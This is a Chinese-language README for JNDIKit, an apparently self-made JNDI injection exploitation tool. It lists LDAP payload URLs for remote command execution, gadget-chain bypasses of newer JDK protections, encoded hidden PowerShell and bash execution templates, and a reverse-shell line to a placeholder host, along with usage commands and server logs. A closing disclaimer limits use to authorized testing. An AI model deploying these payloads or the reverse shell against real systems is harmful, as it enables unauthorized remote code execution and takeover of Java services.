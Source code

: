 # JNDIKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 介绍

一款简单的`JNDI`注入利用工具（自用）

总体参考了 [rogue-jndi](https://github.com/veracode-research/rogue-jndi) 项目，但有很多不同的细节

并没有多少高级功能，主要是一些基本的功能，供安全研究使用

无需自行编译`Java`代码和开启`HTTP`服务，一键启动

| Payload                               | 介绍                                        |
|---------------------------------------|-------------------------------------------|
| ldap://0.0.0.0:1389/SimpleCommand     | 直接执行命令                                    |   
| ldap://0.0.0.0:1389/BashCommand       | 使用bash并进行Base64编码执行命令                     |
| ldap://0.0.0.0:1389/PowershellCommand | 使用powershell并进行Base64编码执行命令               |
| ldap://0.0.0.0:1389/CC6               | 使用CommonsCollections6绕过高版本JDK             |
| ldap://0.0.0.0:1389/BashCC6           | 使用CommonsCollections6绕过高版本JDK（bash）       |
| ldap://0.0.0.0:1389/PowershellCC6     | 使用CommonsCollections6绕过高版本JDK（powershell） |
| ldap://0.0.0.0:1389/CB1               | 使用CommonBeanUtils1绕过高版本JDK                |
| ldap://0.0.0.0:1389/BashCB1           | 使用CommonBeanUtils1绕过高版本JDK（bash）          |
| ldap://0.0.0.0:1389/PowershellCB1     | 使用CommonBeanUtils1绕过高版本JDK（powershell）    |
| ldap://0.0.0.0:1389/Tomcat            | 使用Tomcat ELProcessor绕过高版本JDK              |
| ldap://0.0.0.0:1389/BashTomcat        | 使用Tomcat ELProcessor绕过高版本JDK（bash）        |
| ldap://0.0.0.0:1389/PowershellTomcat  | 使用Tomcat ELProcessor绕过高版本JDK（powershell）  |

支持三种格式的`RCE`
- 直接执行：`Runtime.getRuntime.exec(command);`
- 使用`bash`并编码：`bash -c {echo,[Payload]}|{base64,-d}|{bash,-i}`
- 使用`powershell`并编码：`powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc [Payload]`

为什么需要对命令进行特殊处理： 

例如`linux`下执行反弹`shell`命令会失败：`bash -i >& /dev/tcp/x.x.x.x/port 0>&1`

因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义，所以需要进行特殊处理

支持一些绕过高版本`JDK`的方式（同样支持三种格式的`RCE`）

- 打本地`gadget`的`CB1`和`CC6`链
- 利用`Tomcat ELProcessor`的绕过

## 使用

命令：`java -jar JNDIKit.jar --cmd calc.exe`

如果命令中包含空格请用引号包裹：`--cmd 'your command'`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|                                                                 
20:31:33 [INFO] [org.sec.Main] start jndi kit
20:31:33 [INFO] [org.sec.Main] cmd: calc.exe
20:31:33 [INFO] [org.sec.core.http.HttpServer] start http server: 0.0.0.0:8000
20:31:33 [INFO] [org.sec.core.ldap.LdapServer] start ldap server: 0.0.0.0:1389
┌─────────────────────────────────────┬────────────────────────────────────────────────────┐
│LDAP Payload                         │Introduce                                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/SimpleCommand    │Simple RCE                                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCommand      │Simple RCE Use Bash                                 │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCommand│Simple RCE Use Powershell                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CC6              │RCE Use CC6 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCC6          │RCE Use CC6 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCC6    │RCE Use CC6 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CB1              │RCE Use CB1 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCB1          │RCE Use CB1 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCB1    │RCE Use CB1 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/Tomcat           │Use Tomcat ELProcessor Bypass JDK 8u191 (Simple)    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashTomcat       │Use Tomcat ELProcessor Bypass JDK 8u191 (Bash)      │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellTomcat │Use Tomcat ELProcessor Bypass JDK 8u191 (Powershell)│
└─────────────────────────────────────┴────────────────────────────────────────────────────┘
```

如果端口冲突可自行配置端口

命令：`java -jar JNDIKit.jar --cmd calc.exe --lp 1390 --hp 8001`

接收到请求会实时打印

```text
20:53:21 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> SimpleCommand
20:53:30 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCommand
20:53:42 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCC6
20:53:51 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellTomcat
```

## 免责申明

**未经授权许可使用`JNDIKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**



